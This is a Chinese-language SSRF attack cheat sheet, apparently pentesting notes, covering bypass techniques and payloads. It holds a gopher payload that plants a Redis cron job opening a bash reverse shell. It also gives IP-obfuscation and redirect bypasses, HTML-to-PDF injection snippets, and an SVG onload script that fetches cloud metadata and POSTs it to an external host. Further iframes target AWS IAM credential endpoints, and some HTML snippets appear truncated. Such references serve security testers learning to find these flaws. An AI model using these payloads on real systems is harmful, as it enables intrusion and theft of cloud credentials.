

SSRF
========================================

基础
----------------------------------------

简介
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
服务端请求伪造（Server Side Request Forgery, SSRF）指的是攻击者在未能取得服务器所有权限时，利用服务器漏洞以服务器的身份发送一条构造好的请求给服务器所在内网。SSRF攻击通常针对外部网络无法直接访问的内部系统。

漏洞危害
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ SSRF可以对外网、服务器所在内网、本地进行端口扫描，攻击运行在内网或本地的应用，或者利用File协议读取本地文件。
+ 大部分情况都是GET型SSRF漏洞，仅能探测存活，扫描端口，内网域名探测等，危害十分有限。
+ 其中 **元数据泄露（导致ak，sk泄露）的SSRF漏洞** 危害最大

原理
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	|ssrf1|
	
SSRF利用存在多种形式以及不同的场景，针对不同场景可以使用不同的绕过方式。

相关危险函数
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
SSRF涉及到的危险函数主要是网络访问，支持伪协议的网络读取。以PHP为例，涉及到的函数有 ``file_get_contents()`` / ``fsockopen()`` / ``curl_exec()`` 等。

payload
----------------------------------------

特殊协议
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
::
	
	#利用file协议读取文件
	file:///etc/passwd
	file:///d:/1.txt

	# 利用dict探测端口
	dict://127.0.0.1:22
	dict://127.0.0.1:6379/info

	# 利用gopher协议反弹shell
	gopher://127.0.0.1:6379/_*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$57%0d%0a%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a

常规绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
::

	IP切换禁止和省略：
	http://localhost
	http://127.1
	[http://127.0.0.0](http://127.0.0.0/)
	http://2130706433
	http://0177.1
	http://0x7f.1
	
	8进制格式：0300.0250.0.1
	16进制格式：0xC0.0xA8.0.1
	10进制整数格式：3232235521
	16进制整数格式：0xC0A80001

	http://127.000.000.1
	http://localtest.me
	
	利用IPV6：
	http://[::1]
	http://[::]
	http://[0:0:0:0:0:ffff:127.0.0.1]

	利用泛域名解析
	192.168.0.1.nip.io
	192.168.0.1.sslip.io
	
	http://0.0.0.0
	http://127.1.1.1
	%31%32%37%2E%30%2E%30%2E%31

	过滤规则漏洞：
	http://www.baidu.com@192.168.0.1/

利用302跳转绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 自带重定向： ``http://httpbin.org/redirect-to?url=http://192.168.0.1``
+ 多级重定向： ``http://httpbin.org/redirect-to?url=http://httpbin.org/redirect-to?url=http://192.168.0.1``
+ 搭建重定向页面
	::

		搭建一个php重定向页面，最好是在白名单的网站上如下：
		<?php
		header('Location: http://xxxx.com/ssrf');
		die();
		?>

		注：利用302重定向主要是为了绕过域名白名单，IP黑名单。

短网址绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ bitly.com : 在线生成

DNS重绑定绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ https://lock.cmpxchg8b.com/rebinder.html ： 绑定一个内网，一个外网，多尝试几次即可

#或者？绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ ``https://ssrf.xx.com/?.svg``
+ ``https://ssrf.xx.com/#.svg``

特殊场景
----------------------------------------

上传图片等URL的场景
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 如上传图像URL等功能，上传url后，服务器后端可能会对该url进行访问，攻击者可以构造一个url（或302跳转）指向内网或者本地的地址来进行SSRF攻击。
+ 上传svg图片
	- 图片格式： ``image/svg+xml``
	- 图片内容
		::
		
			<xml version="1.0" encoding="UTF-8" standalone="no"?>
			<svg xmlns:svg="http://www.w3.org/2000/svg" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="200" height="200" viewBox="0 0 200 200">
			<image xlink:href="https://xxx.ssrf.com/1.png" height="200" width="200"/>
			</svg>

HTML导出PDF功能的SSRF
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
::

	利用img标签：
	<body>
	<h1>Congratulations!</h1>
	</img>
	</body>

	利用script标签：
	<body id="body">  </body>"></img>

	利用onerror事件：
	</img>"></img>

	利用iframe标签：
	<iframe src="http://metadata.tencentyun.com/latest/meta-data"></iframe>"></img>

	利用meta refresh:
	<meta http-equiv="refresh" content="0;url=http://metadata.tencentyun.com/latest/meta-data" />

	利用SVG标签：
	<svg width="100%" height="100%" viewBox="0 0 100 100" 
	xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
	<image xlink:href="https://www.baidu.com/img/flexible/logo/pc/result@2.png" height="20" width="20" onload="fetch('http://metadata.tencentyun.com/latest/meta-data/').then(function (response) {
	response.text().then(function(text) {
	var params = text;
	var http = new XMLHttpRequest();
	var url = 'https://xxxxxxxxxxxxxxxx/';
	http.open('POST', url, true);
	http.send(params);
	})});" />
	</svg>

	利用link：
	<link rel=attachment href="file:///C:/Windows/win.ini">
	href也可以使用http/https协议
	工具：weasyprint.exe input.html output.pdf
	注：在创建pdf的时候，会将本地文件内容包含进去，或者发起远程的http请求返回内容包含进去，攻击者可以通过解析pdf文件来获取这些内容。
	导出的pdf文件可以使用以下脚本数据：
	import sys, zlib

	def main(fn):
		data = open(fn, 'rb').read()
		i = 0
		first = True
		last = None
		while True:
			i = data.find(b'>>\nstream\n', i)
			if i == -1:
				break
			i += 10
			try:
				last = cdata = zlib.decompress(data[i:])
				print(last)
				if first:
					first = False
				else:
					pass#print cdata
			except:
				pass
		print(last.decode('utf-8',errors='replace'))

	if __name__=='__main__':
		main(*sys.argv[1:])

基于开源libreoffice的HTML转PDF功能
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 攻击者可以构造一个HTML文件，包含一些特殊标签，如img、iframe、link等，在生成PDF文件时会将这些标签解析并发起相应的请求或者读取本地文件内容，攻击者可以通过解析生成的PDF文件来获取这些内容。
+ excel文件转换pdf
	- 创建一个.ods文件
	- 插入ole对象或者公式如 ``=INFO("osversion")``
	- 文件重命名为.xlsx
	- 上传文件之后观察pdf文件是否包含了相关内容

云服务器
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
::

	curl cip.cc/1.1.1.1
	curl ipinfo.io/1.1.1.1
	使用上述命令查看返回包判断属于哪个云服务器，针对不同云服务器的元数据接口进行SSRF攻击

::

	泄漏 IAM 角色名称:

	<body>
	<h1>Proof that you Signed Your Life Away</h1>
	<iframe src="http://169.254.169.254/latest/meta-data/iam/security-credentials></iframe>
	"></img>
	</body>

::

	泄漏安全凭据:

	<body>
	<h1>Proof that you Signed Your Life Away</h1>
	<iframe src="http://169.254.169.254/latest/meta-data/iam/security-credentials/{{SECURITY_ROLE_ID}}></iframe>
	"></img>
	</body>

挖掘思路
---------------------------------------
- 图片检索功能
	+ url参数
- 关键参数
	+ ``share,wap,url,link,src,source,target,u,display,sourceURl,imageURL,domain``
- 前端传入HTML元素到后端
	+ payload: ``<iframe src="http://ssrf.jd.local/">``
	+ payload: ``<meta http-equiv="refresh" content="0;url=http://ssrf.jd.local/"/>``
- 邮件会议
	+ 邮件内容可能会解析为html，包含内网链接等。
- 文件导出/转换
	+ 如导出PDF，转换pdf，开发票等。
- 盲SSRF
	+ 通常通过响应时间，状态代码等进行漏洞测试。
- request body
	+ 包含htmlContent等字段内容

